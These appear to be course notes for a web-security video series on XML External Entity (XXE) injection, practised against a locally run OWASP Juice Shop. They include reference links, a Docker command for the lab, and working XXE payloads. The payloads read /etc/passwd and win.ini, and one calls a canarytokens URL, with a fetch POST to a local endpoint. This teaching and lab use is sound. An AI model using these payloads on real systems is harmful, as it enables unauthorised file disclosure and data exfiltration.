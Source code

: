 # Video 6.2

* [[OWASP] A05:2021 - Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration)

# Video 6.3

* [[OWASP] Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)
* [What Are XML External Entity (XXE) Attacks](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)
* [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
* [CWE-756: Missing Custom Error Page](https://cwe.mitre.org/data/definitions/756.html)

```xml
<?xml version="1.0"  encoding="UTF-8" ?>
<!DOCTYPE Wares [
  <!ENTITY ltd "Limited Edition ™">
]>
<Wares>
  <Item>Most Beautiful Apple (&ltd;)</Item>
  <Item>Highest Possible Mountain (&ltd;)</Item>
  <Item>Deepest Darkest Cave (&ltd;)</Item>
</Wares>
```

```xml
<Wares>
  <Item>Most Beautiful Apple (Limited Edition ™)</Item>
  <Item>Highest Possible Mountain (Limited Edition ™)</Item>
  <Item>Deepest Darkest Cave (Limited Edition ™)</Item>
</Wares>
```

```sh
# Load unsafe.yml that enables XXE challenge
# https://github.com/juice-shop/juice-shop/tree/master/config
sudo docker run --rm -it -e "NODE_ENV=unsafe" -d -p 127.0.0.1:3000:3000 bkimminich/juice-shop
```

# Video 6.4

* [Canarytokens](https://canarytokens.org/)
* [Webhook.site](https://webhook.site/)

## Different payloads

```js
var payload = `<?xml version="1.0"  encoding="UTF-8" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://canarytokens.com/URL">
]>
<foo>
  &xxe;
</foo>`;

fetch("http://localhost:3003/changelog", {
  "headers": {
    "content-type": "text/xml",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-site"
  },
  "referrer": "http://localhost:3001/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": payload,
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```

```xml
<!-- Target: Linux -->
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>
  &xxe;
</foo>
```

```xml
<!-- Target: Windows -->
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">
]>
<foo>
  &xxe;
</foo>
```

```xml
<!-- Direct call to webhook.site is an another way -->
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://canarytokens.com/URL">
]>
<foo>
  &xxe;
</foo>
```

# Video 6.5

* [GitHub: JuiceShop/fileUpload.ts](https://github.com/juice-shop/juice-shop/blob/master/routes/fileUpload.ts)
* [CVE 2021-29447 report by Safe Security](https://www.safe.security/assets/img/research-paper/pdf/xml-external-entity-xxe-vulnerability-research-paper.pdf)
* [X41 BeanStack: Java Fingerprinting using Stack Traces](https://beanstack.io/)
